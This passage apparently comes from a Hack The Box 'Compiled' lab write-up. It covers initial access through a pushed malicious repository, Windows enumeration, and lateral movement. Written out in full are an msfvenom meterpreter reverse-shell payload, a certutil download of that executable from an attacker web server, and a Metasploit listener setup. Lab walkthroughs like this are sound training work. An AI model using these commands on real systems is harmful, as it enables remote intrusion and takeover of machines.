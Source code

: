 ```bash
git update-index --index-info <index.info
git commit -m "add-symlink"
git push
```

![exploit script execution](/images/HTB-Compiled/exploit_script.png)

After running the script we submit the link of our second repository at `http://compiled.htb:5000/`.

![malicious url](/images/HTB-Compiled/malicious_url.png)

A minute or two later we get a shell as `Richard`.

![initial foothold](/images/HTB-Compiled/initial_foothold.png)

This account does not have the user flag, so we need to look elsewhere. There is another user called `Emily` on the target, we most likely need to switch to that account.

We run winPEAS and learn that `Emily` is currently logged in on the system and also that `Richard` has full access to `C:\Program Files\Gitea` which we will further explore.

![Logged users](/images/HTB-Compiled/logged_users.png)

![Gitea directory](/images/HTB-Compiled/Gitea_directory.png)

### Lateral Movement (shell as Emily)

In `C:\Program Files\Gitea\data` we find the file `gitea.db`. If Emily has an account on the instance, we might find her credentials there.

![Gitea db file](/images/HTB-Compiled/gitea_db.png)

For convenience purposes let's switch to a meterpreter shell.

Create an executable and send it to the target.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=PORT_NUMBER -f exe -o payload.exe


certutil.exe -urlcache -split -f http://WEBSERVER_IP:PORT_NUMBER/payload.exe payload.exe
```

![malicious exe file](/images/HTB-Compiled/msf_exe.png)


Configure the listener in Metasploit.

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT_NUMBER>
run
```
